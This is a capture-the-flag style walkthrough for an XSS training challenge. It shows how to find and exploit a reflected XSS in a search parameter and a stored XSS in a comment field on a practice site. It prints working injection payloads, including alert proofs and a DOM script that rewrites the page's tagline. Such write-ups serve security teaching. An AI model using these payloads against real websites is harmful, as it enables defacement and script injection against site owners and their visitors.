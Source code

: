 # Challenge #3 - Poema Reading Club 4

URL: http://3.challenge.xss.site

## Objectives

- As a proof of concept of the hack, you want to change the web page tag line from "Reading club for introspective people with social issues" to "Reading club for introspective people with social and XSS issues."
- You can achieve the above exploiting any of the two vulnerabilities.

## Resources

Please refer to this page to know how to manipulate an HTML page with DOM for superb XSS defacements:

- http://www.w3schools.com/js/js_htmldom.asp

## What you will learn

- How to find XSS vulnerabilities
- How to bypass simple XSS protections
- How to exploit persistent XSS
- How to change the appearance of a web page through DOM manipulation

## hints

- XSS Reflected
- XSS Stored

## XSS Reflected

### Steps

Add some word on the search field and press go.

Search term: example

Search url:
http://3.challenge.xss.site/search.php?term=example

Looking in the source code you will find the term reflected as below.

<img src="images/404.png" title="example">

To show the alert box we need send the follow payload.

"><img src=1 onerror="alert(document.domain)

Just add the payload to the search url replacing your search term.

http://2.challenge.xss.site/search.php?term="><img src=1 onerror="alert(document.domain)

This time our objective is to change the web page tag line from "Reading club for introspective people with social issues" to "Reading club for introspective people with social and XSS issues."

- Resource: https://melvingeorge.me/blog/add-remove-elements-dom-javascript

<div id="logo">
    <h1><a href="#">poema</a></h1>
    <p>Reading club for introspective  people with social issues</p>
</div>

Looking on the source code, you can see that we have one div with id "logo" and inside one paragraph where we want to change the text.

To change the 

var p1 = document.getElementById('logo').getElementsByTagName('p');

p1[0].textContent = 'Reading club for introspective people with social and XSS issues.';

Now replacing the payload to our new code.

http://2.challenge.xss.site/search.php?term="><img hidden src=1 onerror="var p1 = document.getElementById('logo').getElementsByTagName('p');p1[0].textContent = 'Reading club for introspective people with social and XSS issues.';

## XSS Stored

### Steps

The second XSS is on the comments.

Try to send a comment with the follow message.

<img src=1 onerror="alert(document.domain)">

As you can see the message field is message field is vulnerable to XSS attacks.

As we did before, replace the payload with the code to replace the paragraph.

<img src=1 onerror="var p1 = document.getElementById('logo').getElementsByTagName('p');p1[0].textContent = 'Reading club for introspective people with social and XSS issues.';">